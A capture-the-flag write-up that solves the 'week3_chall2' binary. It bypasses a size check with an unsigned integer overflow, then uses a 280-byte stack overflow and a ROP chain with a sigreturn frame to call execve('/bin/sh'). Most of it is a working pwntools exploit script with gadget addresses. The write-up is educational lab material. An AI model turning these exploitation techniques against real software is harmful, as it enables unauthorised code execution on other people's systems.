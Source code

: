 <img src="https://github.com/0xSh4dy/infosec_writeups/blob/images/img1.png"/>
So, the program asks for a number. On reversing the binary, we can see that a buffer overflow will occur if the user inputs a certain number

```
if(local_11c + 1 < local_11c){
  vulnerable_code...
}


```
Since, local_11c  is a uint, we can enter the max value i.e 4294967295. It will make the if condition true and thus, you can enter into the vulnerable code
After that, by using gdb, we can easily find the offset to rip which is 280. 
<br>
Now, the further plan is pretty straight forward. We will create a ROP chain to spawn a shell. Usually, this is done by calling system("/bin/sh"). In this case, the binary does not contain the function system. So, we cannot use this method. But, we can use execve("/bin/sh",0,0) . Since, this is a statically linked binary, it contains lots of ROP gadgets which would make exploit development easier. 
<br>
The binary also does not contain the string "/bin/sh". But, we can write this string into some writeable section such as the heap in this case. Now, I will write the exploit step by step.  First of all we need to find ROPgadgets. Tools like ROPgadget or Ropper can be used for it.

```
from pwn import *
elf = context.binary = ELF("./week3_chall2")
p = elf.process()

# Specify the architecture because it is needed to create a fake Sigreturn Frame
context.arch = "amd64"

movGadget = 0x0000000000543650 #mov qword ptr [rcx], rdx ; ret
pop_rcx_ret =  0x0000000000460133 # pop rcx ; ret
pop_rdx_ret = 0x000000000040421f # pop rdx ; ret
pop_rax_ret = 0x000000000041d24a # pop rax ; ret
ret = 0x000000000040101a #ret;
syscall = 0x00000000004039c9 # syscall;
heap = 0x00000000005dd000

offset = 280 #The offset to rip
binsh = 0x0068732f6e69622f #/bin/sh\x00
junk = b'a'*offset
p.recvuntil("Enter a number: ")
p.sendline('4294967295')
p.recvuntil("Whats Your Name, My Fellow h4x0r: ")

#The payload to write /bin/sh\x00 into memory
payload = junk + flat(pop_rcx_ret,heap,pop_rdx_ret,binsh,movGadget) 
```
After that, we need to call execve("/bin/sh\0",0,0). This can be easily done using syscalls.
Creating a fake SigreturnFrame

```
frame = SigreturnFrame()
frame.rax = 59
frame.rdi = heap
frame.rsi = 0x0
frame.rdx = 0x0
frame.rip = syscall
```

Now, we have created a Sigreturn frame. This would be used to set everything in order to call execve("/bin/sh\0",0,0). Refer to https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/ for more details on the Linux syscall table.

Now, make a sys_rt_sigreturn syscall which would be used to execute the Sigreturn Frame created by us. popping 0xf into the rax register followed by a syscall and our sigreturn frame would spawn a shell
```
payload += flat(pop_rax_ret,0xf,syscall,frame)
p.sendline(payload)
p.interactive()
```

### PROOF
<img src="https://github.com/0xSh4dy/infosec_writeups/blob/images/img2.png"/>
